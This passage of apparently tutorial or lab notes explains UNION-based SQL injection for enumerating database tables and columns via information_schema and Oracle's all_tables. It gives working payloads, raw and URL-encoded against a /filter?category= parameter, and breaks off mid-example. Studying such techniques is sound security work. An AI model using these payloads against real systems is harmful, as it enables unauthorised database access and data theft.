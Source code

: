 If you are having trouble with the union, you can always ask for just one column and fill in the remaining columns with NULL. For example, if an injectable parameter returns two columns of string data, you can use this UNION query:

' UNION SELECT TABLE_NAME,NULL FROM information_schema.tables--

Encoded as a URL:

/filter?category='+UNION+SELECT+TABLE_NAME,NULL+FROM+information_schema.tables--

#### Listing Column Information for a Given Table

To query the information schema of a particular table, use `information_schema.columns`:

SELECT * FROM information_schema.columns WHERE table_name = 'Users'

This will return rows of results, where each row contains data about a different column.

A partial list of fields returned by this query:

- `TABLE_CATALOG`
- `TABLE_SCHEMA`
- `TABLE_NAME`
- `COLUMN_NAME`
- `COLUMN_DEFAULT`
- `IS_NULLABLE`
- `DATA_TYPE`

full list here: [https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/](https://www.mssqltips.com/sqlservertutorial/183/information-schema-columns/)

Can use the same strategy mentioned above, once you know how many columns your query returns, you can always craft a UNION query that uses a NULL as a placeholder, if the query being UNIONed does not have enough columns.

For example, this would return info about the columns of a table:

' UNION SELECT COLUMN_NAME,NULL FROM information_schema.columns WHERE TABLE_NAME='users'--

and when encoded as a URL, this becomes

/filter?category='+UNION+SELECT+COLUMN_NAME,NULL+FROM+information_schema.columns+WHERE+TABLE_NAME%3d'pg_user_mapping'--

### Oracle SQL Servers

The analog to information schema on Oracle SQL servers is as follows.

#### Getting Table Information

for tables:

SELECT * FROM all_tables

For example, a UNION query against an injectable parameter on an Oracle SQL server might look like this:

' UNION SELECT TABLE_NAME,NULL FROM all_tables--

as a URL:
